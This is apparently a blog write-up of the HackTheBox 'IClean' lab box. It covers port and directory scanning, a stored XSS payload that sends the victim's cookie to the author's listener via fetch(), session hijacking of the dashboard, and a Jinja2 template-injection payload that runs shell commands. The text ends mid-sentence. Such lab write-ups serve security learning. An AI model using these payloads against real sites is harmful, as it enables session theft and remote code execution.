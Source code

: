 ```yaml
---
layout: article
title:  "IClean - HackTheBox Writeup"
date: "2024-05-18"
image: "/assets/img/iclean/homepage.png"
tags: ["linux", "website", "xss", "cookies"]
---
```



IClean is a box in HackTheBox that features XSS vulnerabilities...

Port scan the machine.

<div class="article-code">
{% highlight sh %}
jeanp@~$ nmap -sVC 10.10.11.12   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-18 12:46 CDT
Nmap scan report for capiclean.htb (10.10.11.12)
Host is up (0.065s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
|_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.3.7 Python/3.10.12
|_http-title: Capiclean
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}
</div>

Let's go to port 80.

<div class="article-image">
  <img src="/assets/img/iclean/homepage.png">
  <p>home page</p>
</div>

Looks like a company that offers cleaning services.

The website has /login and a /quote page with a form.

Let's run dirb to scan the website for more directories.

<div class="article-code">
{% highlight sh %}
jeanp@~$ dirb http://capiclean.htb/ 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat May 18 15:05:00 2024
URL_BASE: http://capiclean.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://capiclean.htb/ ----
+ http://capiclean.htb/about (CODE:200|SIZE:5267)                                                 
+ http://capiclean.htb/dashboard (CODE:302|SIZE:189)                                              
+ http://capiclean.htb/login (CODE:200|SIZE:2106)                                                 
+ http://capiclean.htb/logout (CODE:302|SIZE:189)                                                 
+ http://capiclean.htb/quote (CODE:200|SIZE:2237)                                                 
+ http://capiclean.htb/server-status (CODE:403|SIZE:278)                                          
+ http://capiclean.htb/services (CODE:200|SIZE:8592)                                              
+ http://capiclean.htb/team (CODE:200|SIZE:8109)                                                  
                                                                                                  
-----------------
END_TIME: Sat May 18 15:11:13 2024
DOWNLOADED: 4612 - FOUND: 8
{% endhighlight %}
</div>

Dirb found /dashboard, but this is a 302 code, a redirect, so I'm not sure what our options are here, maybe the backend code makes this path do a redirect when no cookie is set in the headers. We also have /server-status, but it returns Forbidden, not Unauthorized.

The login form doesn't seem to be vulnerable to SQLis, I tried passing queries listed on [PortSwigger's][PortSwigger] website but no results.

<div class="article-image">
  <img src="/assets/img/iclean/sqli.png">
  <p>/login</p>
</div>

Let's stick with trying to steal cookies exploiting XSS. The only form we can try this on is /quote

<div class="article-image">
  <img src="/assets/img/iclean/quote.png">
  <p>/quote</p>
</div>

<div class="article-image">
  <img src="/assets/img/iclean/thankyou.png">
  <p>/sendMessage</p>
</div>

Looks like the quote request is sent to the management team, we can maybe steal their cookies by sending some scripts with the forms.

Let's try opening and python http server and use the `fetch()` function from javascript in both fields.

<div class="article-code">
{% highlight sh %}
jeanp@~$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
{% endhighlight %}
</div>

<div class="article-image">
  <img src="/assets/img/iclean/scripttag.png">
</div>

This script did not work. Could be the case that the `<script>` tags are filtered and sanitized. Let's try with another approach.

<div class="article-image">
  <img src="/assets/img/iclean/imgscript.png">
</div>

The `img` element has no valid `src`, so the browser returns an error, which makes the `fetch()` function run.

<div class="article-image">
  <img src="/assets/img/iclean/pythonserver.png">
</div>

We get the request.

The service parameter is the one that's vulnerable to XSS, so remove the `img` element from the email field and edit the `fetch()` call to get cookies.

<div class="article-code">
{% highlight javascript %}
<img src=x onerror=fetch('http://10.10.14.142:8000/'+document.cookie);>
{% endhighlight %}
</div>

Since the `+` sign represents a space character when the `Content-Type` of the request is URL-encoded, replace it with `%2b` to avoid breaking the fetch call.

<div class="article-image">
  <img src="/assets/img/iclean/documentcookie.png">
</div>

<div class="article-image">
  <img src="/assets/img/iclean/cookie.png">
</div>

We get the cookie.

Let's see if we can get access to the dashboard with the cookie. With the intercept on inside burp, navigate to /dashboard and add a Cookie header to the request.

<div class="article-image">
  <img src="/assets/img/iclean/dashboardburp.png">
</div>

<div class="article-image">
  <img src="/assets/img/iclean/dashboard.png">
  <p>/dashboard</p>
</div>

We now have access.

To avoid the need to attach a Cookie header to every request in burpsuite, we can instead add the cookie under our browser configurations. In Firefox you can Right Click -> Inspect -> Storage -> Cookies, and make a new entry with Name `session` and the value of the cookie.

<div class="article-image">
  <img src="/assets/img/iclean/consolecookie.png">
</div>

The dashboard has many inputs, I tried passing a `curl` to every input to see if it would reach my python server but that didn't work. Assuming there's no command injection in these inputs, I got stuck and decided to look for help in forums. Someone gave a hint for SSTI (Server-Side Template Injection).

When exploiting server-side template injection, we have to know the technologies, programming language, and template rendering libraries the application uses to be able to pass the correct malicious input. If we use an extension for our browser such as [Wappalyzer][Wappalyzer] we can see that this website uses Flask with Python. 

<div class="article-image">
  <img src="/assets/img/iclean/wappalyzer.png">
  <p>Wappalyzer</p>
</div>

In the dashboard we have a /QRGenerator subdirectory, if we pass the `invoice-id` and `qr-link` to the inputs it redirects us to this page:

<div class="article-image">
  <img src="/assets/img/iclean/reportqr.png">
</div>

The image we passed with the `qr-link` is rendered at the bottom right.

Here's the rendered html img element too:

<div class="article-image">
  <img src="/assets/img/iclean/qrcodelink.png">
</div>

The most popular Python template rendering library is [Jinja2][Jinja] which comes built-in by default with Flask.

For rendering dynamic content in Flask templates, Jinja uses double curly braces.

<div class="article-image">
  <img src="/assets/img/iclean/jinjavariables.png">
  <p>Jinja documentation</p>
</div>

If we look up Jinja2 SSTI we can find some great resources.

[Jinja2 SSTI - HackTricks][Jinja2 SSTI - HackTricks] 

So for now, let's try to pass an input to list the directory.

<div class="article-code">
{% highlight python %}
{% raw %}{{ request.application.__globals__.__getitem__.__builtins__.__getitem__.__import__.popen('ls').read() }}{% endraw %}
{% endhighlight %}
</div>

Let's break down the code.

- `request.application` gives you the Flask application object itself.

- `__globals__` accesses all the global variables and functions available within the application's scope.

- `__getitem__` is a method that allows you to access items (like dictionaries) using the `[]` operator syntax. So `__getitem__` is essentially doing `globals['__builtins__']`.

- `__builtins__` is a module that contains all the built-in functions and objects in Python, like print, len, import, etc.

- Another `__getitem__` is used to access something within `__builtins__`, specifically `__builtins__['__import__']`.

- `__import__` is the built-in `__import__` function in Python, which is used to import modules.
`popen('ls')` is calling the `popen` function (which is typically from the os module) and passing `ls` to run the command on the system.

- `read()` is trying to read the output of the `popen` command.

<div class="article-image">
  <img src="/assets/img/iclean/qrlinkinput.png">
  <p>/QRGenerator</p>
</div>

<div class="article-image">
  <img src="/assets/img/iclean/internalerror.png">
</div>

It returns an internal server error. Why doesn't this input work? 

<i><strong style="color:#df0000;">Spoiler:</strong> there's a function in the `app.py` file of this Flask application which sanitizes double underscores (we go over it in the post explotation section)</i>

<div class="article-code">
{% highlight python %}
def rdu(value):
    return str(value).replace('__', '')
{% endhighlight %}
</div>

Replacing the underscores gives us another caviat










[PortSwigger]: https://portswigger.net/support/using-sql-injection-to-bypass-authentication

[Wappalyzer]: https://www.wappalyzer.com/

[Jinja]: https://jinja.palletsprojects.com/

[Jinja2 SSTI - HackTricks]: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti